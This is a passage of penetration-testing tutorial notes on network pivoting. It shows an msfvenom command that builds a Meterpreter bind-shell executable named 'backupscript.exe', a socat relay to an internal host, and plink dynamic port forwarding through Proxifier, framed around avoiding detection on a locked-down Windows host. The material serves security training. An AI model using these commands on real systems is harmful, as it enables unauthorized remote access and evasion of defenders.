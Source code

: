 We can create a bind shell using msfvenom with the below command.

```
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```


We can start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443.

```
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)


## SSH for Windows plink exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies. Before the Fall of 2018, Windows did not have a native ssh client included, so users would have to install their own. The tool of choice for many a sysadmin who needed to connect to other hosts was PuTTY.
```
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```
```
https://www.putty.org/
```

Imagine that we are on a pentest and gain access to a Windows machine. We quickly enumerate the host and its security posture and determine that it is moderately locked down. We need to use this host as a pivot point, but it is unlikely that we will be able to pull our own tools onto the host without being exposed. Instead, we can live off the land and use what is already there. If the host is older and PuTTY is present (or we can find a copy on a file share), Plink can be our path to victory. We can use it to create our pivot and potentially avoid detection a little longer. 

That is just one potential scenario where Plink could be beneficial. We could also use Plink if we use a Windows system as our primary attack host instead of a Linux-based system.


The Windows attack host starts a plink.exe process with the below command-line arguments to start a dynamic port forward over the Ubuntu server. This starts an SSH session between the Windows attack host and the Ubuntu server, and then plink starts listening on port 9050.

Using Plink.exe
```
plink -D 9050 ubuntu@10.129.15.50
```

Another Windows-based tool called Proxifier can be used to start a SOCKS tunnel via the SSH session we created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where we can provide the configuration for our SOCKS server started by Plink on port 9050.

```
https://www.proxifier.com/
```
